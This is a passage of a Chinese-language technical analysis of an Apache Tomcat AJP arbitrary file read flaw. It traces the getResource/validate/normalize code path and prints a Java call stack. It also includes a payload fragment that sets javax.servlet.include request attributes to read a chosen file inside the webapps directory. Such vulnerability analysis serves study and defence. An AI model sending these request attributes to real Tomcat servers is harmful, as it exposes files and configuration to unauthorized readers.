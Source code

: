 在 **getResource** 当中有个 **validate** ，这个检查往后走会调用 **normalize** 进行目录遍历的检查，之后就是输出读到的内容了。

![image](img/017bf5b8f7eb90b58a0cc4f4aec7bd75.png)

![image](img/06639c29a6f3504544223b4985f4266b.png)

由于当前 **AJP** 出不了 **webapps** 目录，但是是可以做到任意目录下读的，比如我需要读 **/example/2.txt** 下的文件，只需要这样配置就好了。

```
Copy to clipboard    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/examples']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',2.txt]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ]) 
```

![image](img/7aef58cd151c9e30f8933b6970f8dc6f.png)

附上任意文件读取的调用栈

```
Copy to clipboardserveResource:839, DefaultServlet (org.apache.catalina.servlets)
doGet:504, DefaultServlet (org.apache.catalina.servlets)
service:634, HttpServlet (javax.servlet.http)
service:484, DefaultServlet (org.apache.catalina.servlets)
service:741, HttpServlet (javax.servlet.http)
internalDoFilter:231, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilter:52, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:199, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:493, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:137, StandardHostValve (org.apache.catalina.core)
invoke:81, ErrorReportValve (org.apache.catalina.valves)
invoke:660, AbstractAccessLogValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:476, AjpProcessor (org.apache.coyote.ajp)
process:66, AbstractProcessorLight (org.apache.coyote)
process:808, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1498, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
```